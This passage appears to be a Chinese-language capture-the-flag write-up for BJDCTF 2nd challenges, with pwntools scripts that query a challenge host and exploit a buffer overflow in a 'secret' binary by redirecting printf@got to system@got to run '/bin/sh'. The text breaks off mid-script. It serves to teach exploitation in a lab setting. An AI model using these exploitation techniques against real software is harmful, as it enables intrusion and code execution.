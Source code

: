 ```s
# 另开的终端，获取文件夹名
nop@nop-pwn:~$ nc node3.buuoj.cn 29623 | grep 18631212
ls -ali /tmp
18631212 drwxr-xr-x 2 1000 1000  4096 Apr  2 04:32 R0OM#0731741966
```

因为此题会输出文件名，所以可以通过python也可以读取打开的文件名,奈何水平有限不能直接通过脚本拿到shell

```python
p = remote('node3.buuoj.cn',29623)
p.recvuntil('~')
addr_current_dir = p.recvuntil('Level Up !',drop=True)
addr_current_dir = addr_current_dir.split('\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08')[-2]
log.info(addr_current_dir)

sleep(1)
p.sendline('ls')    # fist system(cmd)
p.recvuntil('?')
p.send('/tmp/'+addr_current_dir)
```

## [BJDCTF 2nd]secret

题目功能是猜数，数据都在程序中，但是有10000个，可以通过脚本提取出来，但是速度还是太慢。
分析可以注意到
`buf[(signed int)((unsigned __int64)read(0, buf, 0x16uLL) - 1)] = 0;`
总共可以读取0x16个字符，但是buf的长度为10，也就是说我们可以覆写buf之后的off_46D090，off_46D090在开始时被置为10000，用于记录猜数的次数，即每次猜数成功值减一。

所以可以将其覆写为printf@got,因为注意到system@got与printf@got只相差0x10，所以我们成功猜测16次之后即可将printf@got修改为system@got

```python
    import re
    from pwn import *
    # context.log_level = "DEBUG"
    # objdump -S ./secret -m i386:x86-64:intel -j .text > secret.asm
    file=open("secret.asm",'r')
    data=file.readlines()
    data_list = []
    for i in range(len(data)):
        if re.search('cmp    eax,',data[i]):
            data_list.append(int(data[i][-7:],16))
    log.success("data got!%d"%len(data_list))

    p = process('./secret')

    def way1():
        p.send('AAA')   # name

        for i in data_list:
            p.send(str(i))
            sleep(0.1)
        p.interactive()

    def way2():
        # .got.plt:000000000046D038 off_46D038 dq offset loc_401076         ; DATA  XREF: _system
        # .got.plt:000000000046D040 off_46D040 dq offset loc_401086         ; DATA  XREF: _printf
        payload = '/bin/sh\x00'.ljust(0x10,'a')
        payload += p32(ELF('./secret',checksec=False).got['printf'])
        # cover the 0x46D090(record times which was set to 10000) to printf@got,
        # when we guess the number 16 times and all is right,
        # the fake value(printf@got) will point to system@got,
        # meanwhile, we guess a wrong number to make program call sub_401301,
        # in this function, it will call printf(&buf),
        # because we rewrite printf@got to system@got,
```